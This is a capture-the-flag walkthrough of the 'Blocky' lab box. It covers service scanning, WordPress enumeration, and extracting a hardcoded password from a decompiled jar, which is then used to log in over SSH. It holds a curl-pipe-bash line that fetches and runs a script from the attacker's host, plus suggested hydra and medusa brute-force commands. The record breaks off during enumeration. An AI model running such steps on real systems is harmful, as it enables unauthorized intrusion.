

#### Blocky

- [Attacker Info]()
- [Reconnoitre]()
- [Jar file inspection]()
- [WP-Scan]()
- [Privilege Escalation - ``sudo -l``]()
- [Bonus - FTP, Wordpress Enumeration]()
- [Bonus - Becoming root using CVE-2017-6074 (Unstable)]()

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 2999853  bytes 1902903105 (1.7 GiB)
        RX errors 8  dropped 21  overruns 0  frame 0
        TX packets 3265405  bytes 471660689 (449.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4150  bytes 9779527 (9.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4150  bytes 9779527 (9.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.6  netmask 255.255.254.0  destination 10.10.14.6
        inet6 dead:beef:2::1004  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::b0e1:d917:fdb5:b294  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 2319586  bytes 814787720 (777.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3045882  bytes 250280276 (238.6 MiB)
        TX errors 0  dropped 873 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Reconnoitre

```sh
root@kali:~/blocky# git clone https://github.com/codingo/Reconnoitre.git
Cloning into 'Reconnoitre'...
remote: Counting objects: 1104, done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 1104 (delta 6), reused 4 (delta 0), pack-reused 1087
Receiving objects: 100% (1104/1104), 186.84 KiB | 1.89 MiB/s, done.
Resolving deltas: 100% (758/758), done.
root@kali:~/blocky#
```

```sh
root@kali:~/blocky# cd Reconnoitre/
root@kali:~/blocky/Reconnoitre# ls -l
total 88
-rw-r--r-- 1 root root 35141 Jan 26 05:35 LICENSE
-rw-r--r-- 1 root root  8531 Jan 26 05:35 README.md
drwxr-xr-x 2 root root  4096 Jan 26 05:35 reconnoitre
-rw-r--r-- 1 root root  2314 Jan 26 05:35 reconnoitre.pyproj
-rw-r--r-- 1 root root   931 Jan 26 05:35 reconnoitre.sln
-rw-r--r-- 1 root root 17748 Jan 26 05:35 tank-152362_640.png
drwxr-xr-x 2 root root  4096 Jan 26 05:35 tests
drwxr-xr-x 2 root root  4096 Jan 26 05:35 wordlists
root@kali:~/blocky/Reconnoitre#
```

```sh
root@kali:~/blocky/Reconnoitre# python reconnoitre/reconnoitre.py -t 10.10.10.37 -o `pwd` --services
  __
|"""\-=  RECONNOITRE
(____)      An OSCP scanner by @codingo_

[+] Testing for required utilities on your system.
[#] Performing service scans
[*] Loaded single target: 10.10.10.37
[+] Creating directory structure for 10.10.10.37
   [>] Creating scans directory at: /root/blocky/Reconnoitre/10.10.10.37/scans
   [>] Creating exploit directory at: /root/blocky/Reconnoitre/10.10.10.37/exploit
   [>] Creating loot directory at: /root/blocky/Reconnoitre/10.10.10.37/loot
   [>] Creating proof file at: /root/blocky/Reconnoitre/10.10.10.37/proof.txt
[+] Starting quick nmap scan for 10.10.10.37
[+] Writing findings for 10.10.10.37
   [>] Found FTP service on 10.10.10.37:21
   [>] Found HTTP service on 10.10.10.37:80
   [>] Found SSH service on 10.10.10.37:22
[*] TCP quick scans completed for 10.10.10.37
[+] Starting detailed TCP/UDP nmap scans for 10.10.10.37
[+] Writing findings for 10.10.10.37
   [>] Found FTP service on 10.10.10.37:21
   [>] Found HTTP service on 10.10.10.37:80
   [>] Found SSH service on 10.10.10.37:22
[*] TCP/UDP scans completed for 10.10.10.37
root@kali:~/blocky/Reconnoitre#
```

```sh
root@kali:~/blocky# cd Reconnoitre/
root@kali:~/blocky/Reconnoitre# ls
10.10.10.37  LICENSE  README.md  reconnoitre  reconnoitre.pyproj  reconnoitre.sln  tank-152362_640.png  tests  wordlists
root@kali:~/blocky/Reconnoitre# cd 10.10.10.37/
root@kali:~/blocky/Reconnoitre/10.10.10.37# ls -l
total 12
drwxr-xr-x 2 root root 4096 Jan 26 05:36 exploit
drwxr-xr-x 2 root root 4096 Jan 26 05:36 loot
-rw-r--r-- 1 root root    0 Jan 26 05:36 proof.txt
drwxr-xr-x 2 root root 4096 Jan 26 05:37 scans
root@kali:~/blocky/Reconnoitre/10.10.10.37# cd scans/
root@kali:~/blocky/Reconnoitre/10.10.10.37/scans# ls
10.10.10.37_findings.txt  10.10.10.37.quick.gnmap  10.10.10.37.quick.nmap  10.10.10.37.quick.xml  10.10.10.37-udp.gnmap  10.10.10.37-udp.nmap  10.10.10.37-udp.xml
root@kali:~/blocky/Reconnoitre/10.10.10.37/scans# cat *fin*
[*] Found FTP service on 10.10.10.37:21
   [>] Use nmap scripts for further enumeration or hydra for password attack, e.g
      [=] nmap -sV -Pn -vv -p21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 -oN '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_ftp.nmap' -oX '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_ftp_nmap_scan_import.xml' 10.10.10.37
      [=] hydra -L User List -P Pass List -f -o /root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_ftphydra.txt -u 10.10.10.37 -s 21 ftp
[*] Found HTTP service on 10.10.10.37:80
   [>] Use nikto & dirb / dirbuster for service enumeration, e.g
      [=] nikto -h 10.10.10.37 -p 80 > /root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_nikto.txt
      [=] dirb http://10.10.10.37:80/ -o /root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_dirb.txt
      [=] gobuster -w /usr/share/wordlists/SecLists/Discovery/Web_Content/common.txt -u http://10.10.10.37:80/ -s '200,204,301,302,307,403,500' -e > '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_gobuster_common.txt' -t 50
      [=] gobuster -w /usr/share/wordlists/SecLists/Discovery/Web_Content/cgis.txt -u http://10.10.10.37:80/ -s '200,204,301,307,403,500' -e > '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_gobuster_cgis.txt' -t 50
   [>] Use curl and W3M (apt install w3m) to retreive web headers and find host information, e.g
      [=] curl -i 10.10.10.37
      [=] w3m -dump 10.10.10.37/robots.txt  > '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_robots.txt'
[*] Found SSH service on 10.10.10.37:22
   [>] Use medusa or hydra (unreliable) for password cracking, e.g
      [=] medusa -u root -P rockyou.txt -e ns -h 10.10.10.37 - 22 -M ssh
      [=] hydra -f -V -t 1 -l root -P rockyou.txt -s 22 10.10.10.37 ssh
   [>] Use nmap to automate banner grabbing and key fingerprints, e.g.
      [=] nmap 10.10.10.37 -p 22 -sV --script=ssh-hostkey -oN '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_ssh-hostkey.nmap'
root@kali:~/blocky/Reconnoitre/10.10.10.37/scans#
```

```sh
root@kali:~/blocky# nmap -sV -Pn -vv -p21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 -oN '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_ftp.nmap' -oX '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_ftp_nmap_scan_import.xml' 10.10.10.37

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-26 05:42 EST
NSE: Loaded 48 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:42
Completed NSE at 05:42, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:42
Completed NSE at 05:42, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 05:42
Completed Parallel DNS resolution of 1 host. at 05:42, 0.01s elapsed
Initiating SYN Stealth Scan at 05:42
Scanning 10.10.10.37 [1 port]
Discovered open port 21/tcp on 10.10.10.37
Completed SYN Stealth Scan at 05:42, 0.23s elapsed (1 total ports)
Initiating Service scan at 05:42
Scanning 1 service on 10.10.10.37
Completed Service scan at 05:42, 0.47s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.37.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:42
Completed NSE at 05:42, 1.02s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:42
Completed NSE at 05:42, 0.00s elapsed
Nmap scan report for 10.10.10.37
Host is up, received user-set (0.18s latency).
Scanned at 2018-01-26 05:42:01 EST for 2s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 ProFTPD 1.3.5a
Service Info: OS: Unix

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:42
Completed NSE at 05:42, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:42
Completed NSE at 05:42, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.20 seconds
           Raw packets sent: 1 (44B) | Rcvd: 1 (44B)
root@kali:~/blocky#
```

```sh
root@kali:~/blocky# git clone https://github.com/danielmiessler/SecLists.git
Cloning into 'SecLists'...
remote: Counting objects: 1891, done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 1891 (delta 46), reused 65 (delta 46), pack-reused 1817
Receiving objects: 100% (1891/1891), 432.97 MiB | 7.60 MiB/s, done.
Resolving deltas: 100% (886/886), done.
root@kali:~/blocky# cd SecLists/
root@kali:~/blocky/SecLists# cd Discovery/Web_Content/
root@kali:~/blocky/SecLists/Discovery/Web_Content# ls common.txt
common.txt
root@kali:~/blocky/SecLists/Discovery/Web_Content# pwd
/root/blocky/SecLists/Discovery/Web_Content
root@kali:~/blocky/SecLists/Discovery/Web_Content#
```

```sh
root@kali:~/blocky/SecLists/Discovery/Web_Content# gobuster -w /root/blocky/SecLists/Discovery/Web_Content/common.txt -u http://10.10.10.37:80/ -s '200,204,301,302,307,403,500' -e > '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_gobuster_common.txt' -t 50
root@kali:~/blocky/SecLists/Discovery/Web_Content#
```

```sh
root@kali:~/blocky/Reconnoitre/10.10.10.37/scans# cat 10.10.10.37_gobuster_common.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.37:80/
[+] Threads      : 50
[+] Wordlist     : /root/blocky/SecLists/Discovery/Web_Content/common.txt
[+] Status codes : 302,307,403,500,200,204,301
[+] Expanded     : true
=====================================================
http://10.10.10.37:80/.htpasswd (Status: 403)
http://10.10.10.37:80/.hta (Status: 403)
http://10.10.10.37:80/.htaccess (Status: 403)
http://10.10.10.37:80/index.php (Status: 301)
http://10.10.10.37:80/javascript (Status: 301)
http://10.10.10.37:80/phpmyadmin (Status: 301)
http://10.10.10.37:80/plugins (Status: 301)
http://10.10.10.37:80/server-status (Status: 403)
http://10.10.10.37:80/wiki (Status: 301)
http://10.10.10.37:80/wp-admin (Status: 301)
http://10.10.10.37:80/wp-content (Status: 301)
http://10.10.10.37:80/wp-includes (Status: 301)
=====================================================
root@kali:~/blocky/Reconnoitre/10.10.10.37/scans#
```

```sh
root@kali:~/blocky/Reconnoitre/10.10.10.37/scans# gobuster -w /root/blocky/SecLists/Discovery/Web_Content/common.txt -u http://10.10.10.37:80/wiki -s '200,204,301,302,307,403,500' -e > '/root/blocky/Reconnoitre/10.10.10.37/scans/10.10.10.37_gobuster_common_wiki.txt' -t 50
root@kali:~/blocky/Reconnoitre/10.10.10.37/scans#
```

```sh
root@kali:~/blocky/Reconnoitre/10.10.10.37/scans# cat 10.10.10.37_gobuster_common_wiki.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.37:80/wiki/
[+] Threads      : 50
[+] Wordlist     : /root/blocky/SecLists/Discovery/Web_Content/common.txt
[+] Status codes : 200,204,301,302,307,403,500
[+] Expanded     : true
=====================================================
http://10.10.10.37:80/wiki/.hta (Status: 403)
http://10.10.10.37:80/wiki/.htpasswd (Status: 403)
http://10.10.10.37:80/wiki/.htaccess (Status: 403)
http://10.10.10.37:80/wiki/index.php (Status: 200)
=====================================================
root@kali:~/blocky/Reconnoitre/10.10.10.37/scans#
```


###### Jar file inspection


```sh
root@kali:~/blocky# ls -l
total 28
-rw-r--r--  1 root root  883 Jan 26 05:54 BlockyCore.jar
-rw-r--r--  1 root root  475 Jan 26 05:34 blocky.nmap.gnmap
-rw-r--r--  1 root root 1012 Jan 26 05:34 blocky.nmap.nmap
-rw-r--r--  1 root root 7580 Jan 26 05:34 blocky.nmap.xml
drwxr-xr-x  7 root root 4096 Jan 26 05:36 Reconnoitre
drwxr-xr-x 11 root root 4096 Jan 26 05:45 SecLists
root@kali:~/blocky#
root@kali:~/blocky# unzip BlockyCore.jar -d BlockyCore
Archive:  BlockyCore.jar
  inflating: BlockyCore/META-INF/MANIFEST.MF
  inflating: BlockyCore/com/myfirstplugin/BlockyCore.class
root@kali:~/blocky#
root@kali:~/blocky# cd BlockyCore/
root@kali:~/blocky/BlockyCore#
root@kali:~/blocky/BlockyCore# ls -l
total 8
drwxr-xr-x 3 root root 4096 Jan 26 05:57 com
drwxr-xr-x 2 root root 4096 Jan 26 05:57 META-INF
root@kali:~/blocky/BlockyCore# 
root@kali:~/blocky/BlockyCore# tree
.
├── com
│   └── myfirstplugin
│       └── BlockyCore.class
└── META-INF
    └── MANIFEST.MF

3 directories, 2 files
root@kali:~/blocky/BlockyCore#
```

```sh
root@kali:~/blocky/BlockyCore# cd com/myfirstplugin/
root@kali:~/blocky/BlockyCore/com/myfirstplugin# file BlockyCore.class
BlockyCore.class: compiled Java class data, version 52.0 (Java 1.8)
root@kali:~/blocky/BlockyCore/com/myfirstplugin# jad BlockyCore.class
Parsing BlockyCore.class...The class file version is 52.0 (only 45.3, 46.0 and 47.0 are supported)
 Generating BlockyCore.jad
root@kali:~/blocky/BlockyCore/com/myfirstplugin# ls -l
total 8
-rw-r--r-- 1 root root 939 Jul  2  2017 BlockyCore.class
-rw-r--r-- 1 root root 752 Jan 26 05:59 BlockyCore.jad
root@kali:~/blocky/BlockyCore/com/myfirstplugin#
```

``BlockyCore.jad``

```java
// Decompiled by Jad v1.5.8e. Copyright 2001 Pavel Kouznetsov.
// Jad home page: http://www.geocities.com/kpdus/jad.html
// Decompiler options: packimports(3)
// Source File Name:   BlockyCore.java

package com.myfirstplugin;


public class BlockyCore
{

    public BlockyCore()
    {
        sqlHost = "localhost";
        sqlUser = "root";
        sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
    }

    public void onServerStart()
    {
    }

    public void onServerStop()
    {
    }

    public void onPlayerJoin()
    {
        sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
    }

    public void sendMessage(String s, String s1)
    {
    }

    public String sqlHost;
    public String sqlUser;
    public String sqlPass;
}
```


###### WP-Scan

```sh
root@kali:~/blocky# wpscan --url http://10.10.10.37 --enumerate u,ap,t,tt
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.3
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o [A]bort, default: [N]Y
[i] Updating the Database ...
[i] Update completed.
[+] URL: http://10.10.10.37/
[+] Started: Fri Jan 26 06:18:37 2018

[!] The WordPress 'http://10.10.10.37/readme.html' file exists exposing a version number
[+] Interesting header: LINK: <http://10.10.10.37/index.php/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.18 (Ubuntu)
[+] XML-RPC Interface available under: http://10.10.10.37/xmlrpc.php
[!] Upload directory has directory listing enabled: http://10.10.10.37/wp-content/uploads/
[!] Includes directory has directory listing enabled: http://10.10.10.37/wp-includes/

[+] WordPress version 4.8 (Released on 2017-06-08) identified from advanced fingerprinting, meta generator, links opml, stylesheets numbers
[!] 13 vulnerabilities identified from the version number

[!] Title: WordPress 2.3.0-4.8.1 - $wpdb->prepare() potential SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8905
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48
    Reference: https://github.com/WordPress/WordPress/commit/fc930d3daed1c3acef010d04acc2c5de93cd18ec
[i] Fixed in: 4.8.2

[!] Title: WordPress 2.9.2-4.8.1 - Open Redirect
    Reference: https://wpvulndb.com/vulnerabilities/8910
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41398
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14725
[i] Fixed in: 4.8.2

[!] Title: WordPress 3.0-4.8.1 - Path Traversal in Unzipping
    Reference: https://wpvulndb.com/vulnerabilities/8911
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41457
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14719
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.4-4.8.1 - Path Traversal in Customizer
    Reference: https://wpvulndb.com/vulnerabilities/8912
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41397
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14722
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.4-4.8.1 - Cross-Site Scripting (XSS) in oEmbed
    Reference: https://wpvulndb.com/vulnerabilities/8913
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41448
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14724
[i] Fixed in: 4.8.2

[!] Title: WordPress 4.2.3-4.8.1 - Authenticated Cross-Site Scripting (XSS) in Visual Editor
    Reference: https://wpvulndb.com/vulnerabilities/8914
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41395
    Reference: https://blog.sucuri.net/2017/09/stored-cross-site-scripting-vulnerability-in-wordpress-4-8-1.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14726
[i] Fixed in: 4.8.2

[!] Title: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
    Reference: https://wpvulndb.com/vulnerabilities/8807
    Reference: https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html
    Reference: http://blog.dewhurstsecurity.com/2017/05/04/exploitbox-wordpress-security-advisories.html
    Reference: https://core.trac.wordpress.org/ticket/25239
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295

[!] Title: WordPress <= 4.8.2 - $wpdb->prepare() Weakness
    Reference: https://wpvulndb.com/vulnerabilities/8941
    Reference: https://wordpress.org/news/2017/10/wordpress-4-8-3-security-release/
    Reference: https://github.com/WordPress/WordPress/commit/a2693fd8602e3263b5925b9d799ddd577202167d
    Reference: https://twitter.com/ircmaxell/status/923662170092638208
    Reference: https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16510
[i] Fixed in: 4.8.3

[!] Title: WordPress 2.8.6-4.9 - Authenticated JavaScript File Upload
    Reference: https://wpvulndb.com/vulnerabilities/8966
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/67d03a98c2cae5f41843c897f206adde299b0509
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17092
[i] Fixed in: 4.8.4

[!] Title: WordPress 1.5.0-4.9 - RSS and Atom Feed Escaping
    Reference: https://wpvulndb.com/vulnerabilities/8967
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/f1de7e42df29395c3314bf85bff3d1f4f90541de
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17094
[i] Fixed in: 4.8.4

[!] Title: WordPress 4.3.0-4.9 - HTML Language Attribute Escaping
    Reference: https://wpvulndb.com/vulnerabilities/8968
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/3713ac5ebc90fb2011e98dfd691420f43da6c09a
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17093
[i] Fixed in: 4.8.4

[!] Title: WordPress 3.7-4.9 - 'newbloguser' Key Weak Hashing
    Reference: https://wpvulndb.com/vulnerabilities/8969
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/eaf1cfdc1fe0bdffabd8d879c591b864d833326c
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17091
[i] Fixed in: 4.8.4

[!] Title: WordPress 3.7-4.9.1 - MediaElement Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/9006
    Reference: https://github.com/WordPress/WordPress/commit/3fe9cb61ee71fcfadb5e002399296fcc1198d850
    Reference: https://wordpress.org/news/2018/01/wordpress-4-9-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/ticket/42720
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5776
[i] Fixed in: 4.8.5

[+] WordPress theme in use: twentyseventeen - v1.3

[+] Name: twentyseventeen - v1.3
 |  Last updated: 2017-11-16T00:00:00.000Z
 |  Location: http://10.10.10.37/wp-content/themes/twentyseventeen/
 |  Readme: http://10.10.10.37/wp-content/themes/twentyseventeen/README.txt
[!] The version is out of date, the latest version is 1.4
 |  Style URL: http://10.10.10.37/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating plugins from passive detection ...
[+] No plugins found

[+] Enumerating all plugins (may take a while and use a lot of system resources) ...

   Time: 00:26:09 <=================================================================================================================================================> (72375 / 72375) 100.00% Time: 00:26:09

[+] We found 1 plugins:

[+] Name: akismet - v3.3.2
 |  Last updated: 2017-12-18T16:49:00.000Z
 |  Location: http://10.10.10.37/wp-content/plugins/akismet/
 |  Readme: http://10.10.10.37/wp-content/plugins/akismet/readme.txt
[!] The version is out of date, the latest version is 4.0.2

[+] Enumerating installed themes (only ones marked as popular) ...

   Time: 00:00:09 <=====================================================================================================================================================> (400 / 400) 100.00% Time: 00:00:09

[+] We found 1 themes:

[+] Name: twentyseventeen - v1.3
 |  Last updated: 2017-11-16T00:00:00.000Z
 |  Location: http://10.10.10.37/wp-content/themes/twentyseventeen/
 |  Readme: http://10.10.10.37/wp-content/themes/twentyseventeen/README.txt
[!] The version is out of date, the latest version is 1.4
 |  Style URL: http://10.10.10.37/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating timthumb files ...

   Time: 00:00:56 <===================================================================================================================================================> (2541 / 2541) 100.00% Time: 00:00:56

[+] No timthumb files found

[+] Enumerating usernames ...
[+] Identified the following 1 user/s:
    +----+-------+---------+
    | Id | Login | Name    |
    +----+-------+---------+
    | 1  | notch | Notch – |
    +----+-------+---------+

[+] Finished: Fri Jan 26 06:46:14 2018
[+] Requests Done: 75395
[+] Memory used: 83.793 MB
[+] Elapsed time: 00:27:37
root@kali:~/blocky#
```

###### Getting user shell


```
notch
8YsqfCTnvxAUeduzjNSXe22
```

```sh
root@kali:~/blocky# ssh notch@10.10.10.37
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.37' (ECDSA) to the list of known hosts.
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ 
```

###### Privilege Escalation

```sh
root@kali:~/blocky# git clone https://github.com/rebootuser/LinEnum.git
Cloning into 'LinEnum'...
remote: Counting objects: 98, done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 98 (delta 4), reused 8 (delta 4), pack-reused 86
Unpacking objects: 100% (98/98), done.
root@kali:~/blocky# cd LinEnum/
root@kali:~/blocky/LinEnum# ls
CHANGELOG.md  CONTRIBUTORS.md  LinEnum.sh  README.md
root@kali:~/blocky/LinEnum#
```

```sh
root@kali:~/blocky/LinEnum# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.37 - - [26/Jan/2018 06:29:06] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
notch@Blocky:~$ curl http://10.10.14.6:8000/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 38174  100 38174    0     0  49522      0 --:--:-- --:--:-- --:--:-- 49576

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

Debug Info
thorough tests = disabled


Scan started at:
Fri Jan 26 05:29:24 CST 2018


### SYSTEM ##############################################
Kernel information:
Linux Blocky 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


Kernel information (continued):
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017


Specific release information:
